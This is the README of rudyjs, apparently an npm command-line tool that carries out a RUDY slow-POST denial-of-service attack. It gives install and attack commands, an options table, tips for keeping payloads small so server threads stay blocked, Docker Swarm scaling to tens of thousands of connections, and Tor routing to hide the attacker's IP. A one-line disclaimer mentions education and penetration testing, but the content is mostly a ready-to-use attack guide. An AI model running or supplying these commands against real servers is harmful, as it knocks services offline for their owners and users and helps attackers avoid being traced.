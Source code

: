 # rudyjs ( R-U-DEAD-YET ? )
## RUDY DDOS Attack Implementation on Node.js


[![NPM](https://nodei.co/npm/rudyjs.png?downloads=true&downloadRank=true&stars=true)](https://nodei.co/npm/rudyjs/)


[![Build Status](https://travis-ci.org/sahilchaddha/rudyjs.svg?branch=master)](https://travis-ci.org/sahilchaddha/rudyjs)
[![Build Status](https://semaphoreci.com/api/v1/projects/be75e13b-9b1c-43eb-8350-1a652fe84f03/1950351/badge.svg)](https://semaphoreci.com/sahilchaddha-96/rudy)
[![CircleCI](https://circleci.com/gh/sahilchaddha/rudyjs/tree/master.svg?style=svg)](https://circleci.com/gh/sahilchaddha/rudyjs/tree/master)
[![CodeFactor](https://www.codefactor.io/repository/github/sahilchaddha/rudyjs/badge)](https://www.codefactor.io/repository/github/sahilchaddha/rudyjs)
[![npm](https://img.shields.io/npm/v/rudyjs.svg)](https://www.npmjs.com/package/rudyjs)
[![GitHub release](https://img.shields.io/github/release/sahilchaddha/rudyjs.svg)](https://github.com/sahilchaddha/rudyjs)
[![npm](https://img.shields.io/npm/dm/rudyjs.svg)](https://www.npmjs.com/package/rudyjs)


### Powerful Lightweight RUDY DDOS Attack using Tor Proxy

What is RUDY Attack ?

new-relic fails

**NOTE**: For Educational/Penetration Testing Purposes Only (Mitigating RUDY DDos Attacks)

## Installation :

```
 $ npm install -g rudyjs
```

### Usage :

```
 $ rudy
```

### Sample Usage :

```
 $ rudy -t "http://localhost:3000" -d 5 -n 500 --useTor --torUrl "127.0.0.1" --torPort 9051 -m "GET"
```

The above command runs RUDY DDos Attack on `http://localhost:3000` with 5 seconds delay & 500 requests

### Options :

| Command            | Type | Default | Description                                           |
|--------------------|------|---------|-------------------------------------------------------|
| -t, --target  (string)| Required | http://localhost:8080 | Target URL to attack                      |
| -l, --length  (number)| Optional | 1048576 Bytes (1 Mb) | Size of Payload (Bytes)           |
| -n, --numberOfConnections  (number)           | Optional | 500 | Number of Max Connections|
| -m, --method  (string)       | Optional | POST | HTTP Request Method|
| -d, --delay  (number)       | Optional | 5 seconds | Delay between each Bytes sent (seconds)|
| -v, --verbose       | Optional | false | Enable Verbose logs|
| -p, --useTor       | Optional | false | Use Tor Proxy|
| -u, --torUrl  (string)      | Optional | 127.0.0.1 | Custom Tor Server URL|
| -o, --torPort  (number)       | Optional | 9050 | Custom Tor Port|


### Generate Payload : 

```
 $ rudy generatePayload <charCount>
```

Usage : 

```
 $ rudy generatePayload 2
```

`generatePayload` will generate dummy payload of specific character count.Keep character count as low as possible for rudy to be effective. Smaller the payload size will keep the HTTP Socket Connection longer. The Server assumes the client has slow internet connection and will ke the thread blocked.

### Docker : Automating Multiple Attacks

Typically a single attack can run upto 2000-5000 simultaneous requests (Depending upon amount of RAM the machine has). You can also run 15000-25000 simultaneous requests using docker.

You can create docker image from supplied Dockerfile and run the container image multiple times or can use docker swarm.

You can edit the Dockerfile to update your attack configuration.

Creating Docker Image : 

```
 $ docker build -t sahilchaddha/rudy .
```

Running Docker Image : 

```
 $ docker run -d sahilchaddha/rudy
```

Reading Docker Logs :

```
 # Get container ID
 $ docker ps

 # Print app output
 $ docker logs <container id>

 # Example
    > node dist/cli.js "-t" "http://localhost:3000/" "-v" "-d" "5" "-n" "1"

    ____       _   _       ____  _____    _    ____     __   _______ _____   ___
    |  _ \     | | | |     |  _ \| ____|  / \  |  _ \    \ \ / / ____|_   _| |__ \
    | |_) |____| | | |_____| | | |  _|   / _ \ | | | |____\ V /|  _|   | |     / /
    |  _ <_____| |_| |_____| |_| | |___ / ___ \| |_| |_____| | | |___  | |    |_|
    |_| \_\     \___/      |____/|_____/_/   \_\____/      |_| |_____| |_|    (_)

    Author : Sahil Chaddha
    Website: http://www.sahilchaddha.com
    Github : https://www.github.com/sahilchaddha
    Thu May 10 2018 14:58:02 GMT+0800 (+08) *** VERBOSE ::: Logger ::: Logger set to Verbose ***
    Thu May 10 2018 14:58:02 GMT+0800 (+08) *** INFO ::: Rudy_Service ::: Attack Started at http://localhost:3000/ With Workers : 1 ***
```

Docker Swarm : Automating Monitoring of multiple Docker images : 

```
 $ docker build -t sahilchaddha/rudy .  //[Only do this if you made changes to the Dockerfile]
 $ docker service create --name <serviceName> --detach=false sahilchaddha/rudy
 $ docker service ls   //[Can see 1/1 copy running]
 $ docker service scale <serviceName>=10 // 10 instances will be created of rudy
 $ docker service ls   //[Doing this multiple times you can see the # of copies increasing]
 $ docker service rm <serviceName> // To remove service
```

This will result in creating 10 instances of rudy attack running with 2000 connections will result in 20,000 connections. This can also lead to consuming lot of memory.

### Staying Anonumous : 

Use `-p, --useTor` to make requests using tor node.
IP Address will be anonymous (tor exit node)

Its preferable to use tor or ssh tunnel

### Developer : 

### Installation : 

```
 $ git clone https://github.com/sahilchaddha/rudyjs.git && cd rudyjs
 $ npm install
 $ npm run build
```

### Starting : 

```
 $ npm run start // For Dist
 $ npm run startTs // For src
```

### Contribution :

Please run lint before creating a PR 

```
    $ npm run lint
```

### Troubleshooting : 

#### 413 Payload too large : 

This Error occurs when HTTP server denies requests with heavy payload. Reduce `packet_len` property to 1MB or lower.

#### 405 Not Allowed : 

This HTTP Error represents that HTTP METHOD ("GET"/"POST") is not allowed on the target URL. Try changing URL to another endpoint or change HTTP METHOD.

### Author : 

Sahil Chaddha